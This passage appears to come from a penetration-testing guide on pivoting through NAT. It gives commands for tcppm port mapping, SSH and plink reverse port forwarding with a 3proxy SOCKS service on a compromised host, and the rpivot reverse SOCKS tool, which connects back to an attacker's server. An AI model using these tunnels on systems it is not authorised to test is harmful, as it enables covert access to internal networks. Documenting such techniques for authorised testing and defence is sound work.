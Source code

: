`tcppm <localport> <targethost> <targetport>`

## NAT scenario

This is by far the most common situation I encounter during engagements. The traffic to the target is being forwared on per-port basis. This means that all ports bound other than those being in the port forwarding rules won't be accessible from outside. One possible solution is to initiate a reverse connection. The tools described below will help you with that.

### SSH reverse port forwarding /w 3proxy

This pivoting setup looks something like this:

Run 3proxy service with the following config on the target server:

`socks -p31337`

Create a separate user on the receiving side (attacker's machine). 

`adduser sshproxy`

This user has to be low-privileged and shouldn't have shell privileges. After all, you don't want to get reverse pentested, do ya? :) Edit /etc/passwd and switch shell to /bin/false. It should look like:

```
root:x:0:0:root:/root:/bin/bash
...
sshproxy:x:1000:1001:,,,:/home/sshproxy:/bin/false
...
```

Now connect to your server with the newly created user with `-R` flag. Linux system:

`ssh sshproxy@your_server -R 31337:127.0.0.1:31337`

For windows you will need to upload [plink.exe](http://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) first. This is a console version of putty. To run it:

`plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337`

The `-R` flag allows you to bind port on the server side. All connections to this port will be relayed to a specified port on the client. This way we can run 3proxy socks service on the client side (compromised machine) and access this port on the attacker's host via ssh `-R` flag. 

### Rpivot

This is my favorite method of traversing NAT connections. [Rpivot](https://github.com/artkond/rpivot) is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. It connects back to your machine and binds a socks proxy on it. It works just like `ssh -D` but in opposite direction. Server side:

`python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0`

Client side:

`python client.py --server-ip <ip> --server-port 9999`
